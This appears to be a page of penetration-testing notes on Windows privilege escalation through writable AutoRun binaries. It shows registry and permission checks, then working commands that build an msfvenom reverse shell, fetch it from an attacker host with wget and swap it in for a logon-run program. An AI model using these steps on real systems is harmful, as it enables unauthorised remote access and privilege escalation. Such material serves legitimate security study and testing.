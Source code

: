 # AutoRuns

Windows can be set to run scripts and applications on system boot and on logon of a user.

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

![](<../../../../.gitbook/assets/image (15) (2).png>)

Above, the binary `program.exe` has been located under the specified registry path. Binaries found in this path are executed every time a user logs into the system. [<mark style="color:red;">\[Source\]</mark>](https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)

Running `accesschk.exe` against the binary shows that the security group "Everyone" has _FILE\_ALL\_ACCESS_ permission to the binary.

```
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![](<../../../../.gitbook/assets/image (118) (2).png>)

This means the binary can be overwritten by anyone. In this effect, replacing the binary with a reverse shell of the name `program.exe` would mean the next time someone logs in it would be possible to have the shell executed in the context of the logged in user.

```
# Create Reverse Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f exe -o program.exe

# Upload to target system
wget http://<Attacker-IP>/program.exe

# Move to binary folder
move .\program.exe "C:\Program Files\Autorun Program\" /Y

# Wait for user to login
```
